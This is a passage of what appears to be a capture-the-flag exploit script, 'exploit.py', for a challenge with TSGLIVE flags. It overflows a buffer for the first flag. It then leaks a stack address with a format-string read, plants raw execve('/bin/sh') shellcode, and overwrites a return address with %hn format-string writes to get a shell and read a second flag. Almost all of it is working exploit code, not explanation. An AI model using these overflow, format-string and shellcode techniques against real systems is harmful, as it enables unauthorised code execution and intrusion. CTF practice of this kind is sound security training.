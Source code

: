 ```exploit.py
  c.sendline("A"*0xf8)
  c.recvuntil("typed")
  c.recvline()
  flag1 = c.recvline().rstrip()
  if "TSGLIVE" not in flag1:
      exit(1)
  print("\n[!] Got a flag1 🎉🎉🎉 " + flag1)

  ###############################
  ##  LEVEL 2                   #
  ###############################
  SC_START = 0x50
  pay = b""

  # leak stack
  pay += "%42$p"
  leaked = int(custom_wait_NIRUGIRI(pay), 16)
  ra_play_game = leaked - 0x128
  buf_top = leaked - 0x230
  target_addr = ra_play_game + 0x38
  print("[+] leaked stack: " + hex(leaked))
  print("[+] ra_play_game: " + hex(ra_play_game))
  print("[+] buf_top: " + hex(buf_top))
  pay_index = 47

  # calc
  v0 = target_addr & 0xFFFF
  v1 = (target_addr >> 16) & 0xFFFF
  v2 = (target_addr >> 32) & 0xFFFF
  assert(v0>8 and v1>8 and v2>8)
  vs = sorted([[0,v0],[1,v1],[2,v2]], key= lambda l: l[1])

  # place addr & sc
  sc = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
  c.recvuntil("$ ")
  pay = b""
  pay += "A"*8
  pay += p64(ra_play_game) + p64(ra_play_game+2) + p64(ra_play_game+4)
  pay += sc
  assert(len(pay) <= 0x50)
  assert("\x0a" not in pay)
  c.sendline(pay)

  # overwrite return-addr with FSA
  pay = b""
  pay += "NIRUGIRI"
  pay += "%{}c".format(vs[0][1]-8)
  pay += "%{}$hn".format(pay_index + vs[0][0])
  pay += "%{}c".format(vs[1][1] - vs[0][1])
  pay += "%{}$hn".format(pay_index + vs[1][0])
  pay += "%{}c".format(vs[2][1] - vs[1][1])
  pay += "%{}$hn".format(pay_index + vs[2][0])
  assert("\x0a" not in pay)
  assert(len(pay) < MAX_TYPE)
  print("[+] shellcode placed @ " + hex(target_addr))

  # nirugiri
  inject_wait_NIRUGIRI(pay) # if NIRUGIRI comes first, it fails
  c.sendlineafter("/home/user $", "cat ./flag2")
  flag2 = c.recvline()
  if "TSGLIVE" not in flag2:
      exit(2)
```